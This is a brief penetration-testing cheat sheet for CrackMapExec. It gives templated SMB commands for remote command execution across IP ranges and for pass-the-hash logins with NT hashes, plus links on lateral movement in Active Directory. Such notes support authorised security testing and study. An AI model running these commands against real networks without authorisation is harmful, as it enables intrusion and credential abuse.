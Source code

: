 # CrackMapExec

## 01 - Usage

```
$ crackmapexec smb <IP>/<CIDR> --exec-method <wmiexec | atexec | smbexec | mmcexec> [-d <domain_name>] -u "<username>" -p "<password>"
```

- Pass the Hash

```
$ crackmapexec smb <IP>/<CIDR> -u "<username>" -H "<nt_hash>" [-d <domain_name>]

$ crackmapexec smb targets.txt -u "<username>" -H "<nt_hash>" [-d <domain_name>]
```

---
## References

- [RCE On Windows From Linux Part 2 CrackMapExec](https://www.infosecmatter.com/rce-on-windows-from-linux-part-2-crackmapexec/)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)